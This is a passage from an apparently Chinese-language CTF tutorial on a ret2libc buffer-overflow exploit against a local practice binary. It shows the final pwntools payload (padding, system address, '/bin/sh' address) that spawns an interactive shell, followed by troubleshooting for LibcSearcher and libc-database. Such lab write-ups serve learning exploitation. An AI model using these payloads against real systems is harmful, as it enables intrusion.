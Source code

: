 ```plain

#缓冲区少了8个字节，因为我们虽然是返回到了main函数，但是在main函数之前有一些初始化的函数，这些函数改变了栈，第二次调用main函数的时候缺少了栈初始化的过程，如果我们返回到_start那么偏移就是一样的。
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)


p.interactive()
```

如果出现下面这种情况：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc31.py
[+] Starting local process './ret2libc3': pid 76172
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
No matched libc, please add more libc or try others
[*] Stopped process './ret2libc3' (pid 76172)
```

解决办法：

libc数据库中没有对应的版本，下载[https://github.com/niklasb/libc-database，然后替换libc-database目录](https://github.com/niklasb/libc-database%EF%BC%8C%E7%84%B6%E5%90%8E%E6%9B%BF%E6%8D%A2libc-database%E7%9B%AE%E5%BD%95)

根据命令下载不同发行版本的libc

```plain
$ ./get  # List categories
$ ./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
$ ./get all  # Download all categories. Can take a while!
```

如果遇到这种情况：

```plain
root@qufeng-virtual-machine:/LibcSearcher/libc-database# ./get ubuntu
Will download or update for:
Requirements for download or update 'ubuntu' are not met. Please, refer to README.md for installation instructions
```

就查看README中的Requirements，我是缺少了这个zstd，安装好所有的即可

```plain
qufeng@qufeng-virtual-machine:/$ zstd
The program 'zstd' is currently not installed. You can install it by typing:
sudo apt install zstd
```

继续运行脚本，可能会找到多个脚本，手动选择一个，接着可能出现这种情况：
